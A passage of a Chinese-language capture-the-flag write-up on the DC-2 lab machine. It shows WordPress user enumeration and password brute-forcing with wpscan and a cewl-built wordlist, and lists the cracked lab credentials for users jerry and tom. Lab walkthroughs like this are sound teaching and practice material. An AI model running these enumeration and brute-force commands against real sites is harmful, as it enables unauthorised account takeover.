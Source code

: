 >  
 登录页面尝试登录 随即输入用户名密码，提示用户名不存在，似乎可以进行用户名枚举 


<img src="https://img-blog.csdnimg.cn/d0acfdbcce73464390d9ea58ec94c8de.png" alt="在这里插入图片描述">

>  
 首先来个用户枚举，再尝试利用枚举到的用户爆破密码 


```
wpscan --url http://dc-2 --enumerate u

```

<img src="https://img-blog.csdnimg.cn/31acd03ccda64055975f4b790453746d.png" alt="在这里插入图片描述">

>  
 枚举出三个用户名 


```
admin jerry tom

```

<img src="https://img-blog.csdnimg.cn/7d3670affef543268a28783b2da0cc0c.png" alt="在这里插入图片描述">

### 8、暴力破解出账号密码

>  
 根据flag1可以用暴力破解，我们使用cewl生成字典，使用wpscan进行暴力破解 


```
cewl http://dc-2/ &gt; 1.txt

```

<img src="https://img-blog.csdnimg.cn/ec42df1c07314a8da67091116265e647.png" alt="在这里插入图片描述">

```
wpscan --url http://dc-2 --passwords 1.txt

```

<img src="https://img-blog.csdnimg.cn/4e31aa71ca0d42189b9342abc678b83b.png" alt="在这里插入图片描述">

>  
 爆破出来两个账号 


```
jerry/adipiscing
tom/parturient

```

<img src="https://img-blog.csdnimg.cn/8c72c2e0075942bcba76b682117dbec1.png" alt="在这里插入图片描述">
